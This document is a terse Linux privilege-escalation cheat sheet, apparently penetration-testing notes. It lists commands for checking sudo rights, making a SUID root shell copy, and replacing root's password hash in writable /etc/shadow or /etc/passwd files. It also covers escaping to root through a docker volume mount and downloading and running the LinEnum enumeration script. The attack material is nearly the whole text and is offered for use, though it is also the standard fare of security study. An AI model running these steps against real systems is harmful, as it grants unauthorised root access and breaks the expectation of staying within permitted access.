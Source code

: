 				Sudo 
Can you su without a password?		       su root
are you already a sudo user?			   sudo su -
what can we run with sudo?			  sudo -l

				Spawning root shells
Create a copy of /bin/bash or /bin/sh can you call it rootbash - make sure its owned by the root user. Then use /bin/bash -p to run it

				Writable /etc/shadow
ls -l /etc/shadow					is /etc/shadow writable?
- mkpasswd -m sha-512 password		Makes password Hash
- replace root password hash with the one you just generated
- su root								switch to root

<!-- -->

			 	Writable /etc/passwd
ls -l /etc/passwd					is /etc/passwd writeable?
- openssl passwd password			      Generate password hash
- place the new password hash between the first and second colon (:) of the root user's row (replacing the "x").
- su root							      switch to root

<!-- -->


				Docker
-- get image name using 'docker ps'
-- docker run -v /:/mnt --rm -it $imagenamehere chroot /mnt sh

				LinEnum
-- wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
-- ./LinEnum.sh -t -r report.txt

				Misc
-- https://gtfobins.github.io/